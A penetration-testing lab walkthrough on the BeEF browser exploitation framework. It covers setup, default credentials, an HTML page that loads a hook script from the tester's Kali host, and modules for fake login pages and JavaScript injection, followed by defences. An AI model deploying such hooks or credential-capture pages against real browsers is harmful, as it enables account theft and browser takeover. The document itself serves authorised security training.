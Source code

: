 ```yaml
---
title: Browser Exploitation Framework
date: 2024-01-18 08:01:35 +0300
subtitle: Product Design
image: '/images/818.png'
---
```

# Browser Exploitation Framework (BeEF)

## **Objective**
Learn how to use the **Browser Exploitation Framework (BeEF)** to exploit browser vulnerabilities, understand how attackers can use it for social engineering, and implement strategies to defend against such attacks.

---

## **Purpose**
BeEF is a powerful penetration testing tool that focuses on browser-based exploitation. It allows testers to identify browser vulnerabilities, gather information, and exploit client-side flaws. This lab demonstrates how to use BeEF to target browsers and secure them against potential threats.

---

## **Tools Required**
- **Kali Linux**: Running BeEF.
- A browser on a separate machine or virtual machine to act as the target.

---

## **Lab Topology**
- **Kali Linux**: Hosting the BeEF server.
- **Target Browser**: A web browser running on another device or virtual machine.

---

## **Walkthrough**

### **Task 1: Setting Up BeEF**
1. **Verify Installation**:
   - BeEF is pre-installed on Kali Linux. Verify by running:
     ```bash
     beef-xss
     ```
   - If not installed, install it:
     ```bash
     sudo apt update && sudo apt install beef-xss -y
     ```

2. **Start BeEF**:
   - Launch BeEF:
     ```bash
     sudo beef-xss
     ```
   - Open a browser and navigate to:
     ```
     http://127.0.0.1:3000/ui/panel
     ```
   - Default credentials:
     - Username: `beef`
     - Password: `beef`

---

### **Task 2: Hooking a Target Browser**
1. **Generate the Hook URL**:
   - Locate the hook script URL in the BeEF interface (e.g., `http://<kali_ip>:3000/hook.js`).

2. **Deploy the Hook Script**:
   - Embed the hook URL in a web page or send it directly to the target.
   - Example:
     - Create an HTML file named `hook.html`:
       ```html
       <html>
       <script src="http://<kali_ip>:3000/hook.js"></script>
       </html>
       ```
     - Host the file on a server or share it with the target.

3. **Test the Hook**:
   - Open the `hook.html` file in the target browser.
   - Verify the hooked browser appears in the BeEF control panel under **Hooked Browsers**.

---

### **Task 3: Exploiting the Hooked Browser**
1. **Gather Information**:
   - Select the hooked browser in the BeEF interface.
   - Use the **Commands** tab to gather details such as:
     - Browser type and version.
     - Operating system.
     - Plugins and extensions.

2. **Run Exploits**:
   - Use pre-built BeEF modules to demonstrate potential attacks:
     - Social Engineering:
       - Launch a fake login page to capture credentials.
     - Browser Vulnerabilities:
       - Exploit outdated plugins or misconfigurations.
     - JavaScript Injection:
       - Execute custom JavaScript in the target browser.

3. **Monitor Results**:
   - View the results of executed commands in the **Logs** tab.

---

### **Task 4: Defending Against BeEF Attacks**
1. **Educate Users**:
   - Train users to avoid clicking on unknown links or opening untrusted web pages.

2. **Keep Browsers Updated**:
   - Ensure browsers and plugins are up to date to mitigate known vulnerabilities.

3. **Use Browser Security Features**:
   - Enable features like Content Security Policy (CSP) and SameSite cookies.

4. **Monitor Network Activity**:
   - Use network monitoring tools to detect unusual activity related to BeEF hooks.

5. **Employ Web Filtering**:
   - Block access to malicious websites and scripts using web filtering solutions.

---

## **Best Practices**
1. **Use in Authorized Environments Only**:
   - Ensure you have explicit permission to test the target.

2. **Combine with Other Tools**:
   - Use BeEF alongside tools like Burp Suite and Metasploit for comprehensive testing.

3. **Document Findings**:
   - Record vulnerabilities and remediation steps for reporting.

4. **Limit Exposure**:
   - Reduce the attack surface by disabling unnecessary browser features and plugins.

---

## **Key Takeaways**
1. BeEF demonstrates the risks of browser-based exploitation.
2. Hooked browsers can reveal critical information and be manipulated by attackers.
3. Educating users and implementing browser security measures are essential for defense.

---

## **Troubleshooting Tips**
1. **Hook Script Does Not Work**:
   - Verify the target browser can access the BeEF server.
   - Check for firewalls blocking connections to the hook URL.

2. **No Hooked Browsers Appear**:
   - Ensure the target browser executes the hook script.
   - Use tools like Wireshark to monitor traffic.

3. **BeEF Interface Not Loading**:
   - Restart BeEF and verify it is running on port `3000`.

By completing this lab, you now understand how to use BeEF for browser exploitation and how to secure systems against such attacks.